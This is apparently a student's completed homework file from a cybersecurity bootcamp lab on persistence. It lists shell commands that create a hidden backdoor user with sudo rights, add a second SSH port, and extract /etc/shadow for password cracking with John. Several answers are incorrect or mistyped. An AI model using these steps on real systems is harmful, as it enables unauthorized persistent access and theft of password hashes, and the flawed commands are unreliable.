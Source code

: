 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - **sudo adduser sysd --no-create-home**

2. Give your secret user a password: 
    - **password**

3. Give your secret user a system UID < 1000:
    - **sudo usermod -u 444 sysd**

4. Give your secret user the same GID:
   - **sudo groupmod -g 444 sysd**

5. Give your secret user full `sudo` access without the need for a password:
   -  **usermod -aG sudo sysd**

6. Test that `sudo` access works without your password:
    **sudo -l**


**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:
    **Port 22**
    **Port 2222**


**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - **service sshd restart**

2. Exit the `root` account:
    - **exit**

3. SSH to the target machine using your `sysd` account and port `2222`:
    - **ssh sysd@192.168.6.105 -p 2222**

4. Use `sudo` to switch to the root user:
    - **sudo -s**


**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:
    - **ssh sysd@192.168.6.105 -p 2222**

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    **sudo - s**
    **cd /etc/** 
    **unshadows /etc/passwd /etc/shadow > unshadowed**

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.


